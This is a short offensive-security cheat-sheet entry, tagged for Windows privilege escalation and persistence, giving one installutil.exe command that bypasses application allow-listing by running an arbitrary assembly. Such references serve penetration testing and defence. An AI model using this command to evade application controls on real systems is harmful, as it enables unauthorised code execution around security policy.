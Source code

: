 # application whitelisting

% application whitelisting, clm
## bypass de lista de permissões com istallutil
#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON 

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U <full_path_to_app>
```

